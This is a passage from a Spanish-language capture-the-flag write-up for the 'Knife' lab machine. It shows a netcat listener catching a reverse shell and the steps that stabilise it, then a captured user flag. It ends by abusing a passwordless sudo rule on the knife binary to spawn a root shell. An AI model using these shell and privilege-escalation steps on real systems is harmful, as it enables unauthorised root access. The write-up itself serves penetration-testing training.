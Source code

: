 > udo nc -nlvp 443
```console
[sudo] password for mzapata: 
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.242] 40752
bash: cannot set terminal process group (978): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ 
```

Pasamos a arreglar la consola

1. script /dev/null -c bash
2. `ctrl` + `Z`
3. stty raw -echo; fg
4. reset xterm
5. export SHELL-/bin/bash
6. export TERM=xterm
7. stty rows columns

y ya se podría ver la flag de user

> cd
>
> cat user.txt

```console
5023bbd9e188e35f2ec126a4d5a79fb3
```

## Fase de Escalación de privilegios

> james@knife:~$ sudo -l

```console
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Vemos que podemos ejecutar el binario knife como sudo sin utilizar password y vemos una manera de ejecutar comandos en la siguiente página <https://gtfobins.github.io/gtfobins/knife/#sudo>

> sudo -u root knife exec -E 'exec "/bin/sh"'

```console
whoami
root
```

y ya podríamos ver la flag de root

> bash
>
> cat /root/root.txt


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>